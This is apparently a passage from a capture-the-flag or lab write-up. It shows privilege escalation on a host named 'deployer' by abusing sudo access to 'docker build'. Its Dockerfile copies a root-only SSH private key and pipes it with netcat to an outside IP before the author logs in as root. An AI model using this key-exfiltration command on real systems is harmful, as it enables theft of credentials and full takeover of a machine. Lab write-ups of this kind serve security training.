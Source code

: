 We can first view the images present:

```
shanah@deployer:~$ sudo docker images
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d4ff818577bc   2 years ago   5.6MB
```

I read the documentation for `docker build`, and learned that we need a `Dockerfile` to run it:

{% embed url="https://docs.docker.com/engine/reference/commandline/build/" %}

The `/opt` directory also had a `id_rsa.bak` file present:

```
shanah@deployer:/opt$ ls -la
total 16
drwxrwxrwx  3 root root 4096 May 11  2021 .
drwxr-xr-x 20 root root 4096 Jan  7  2021 ..
drwx--x--x  4 root root 4096 May 11  2021 containerd
-r--------  1 root root 2602 May 11  2021 id_rsa.bak
```

I think the goal is to read this file somehow. Here's the `Dockerfile` I used:

```
FROM alpine

COPY id_rsa.bak /tmp/id_rsa.bak
RUN cat /tmp/id_rsa.bak | nc 192.168.45.196 21
```

Then, we can run `sudo /usr/bin/docker build .` within `/opt` where the `Dockerfile` is.&#x20;

<figure><img src="../../../.gitbook/assets/image (2026).png" alt=""><figcaption></figcaption></figure>

We can then `ssh` in as `root`:
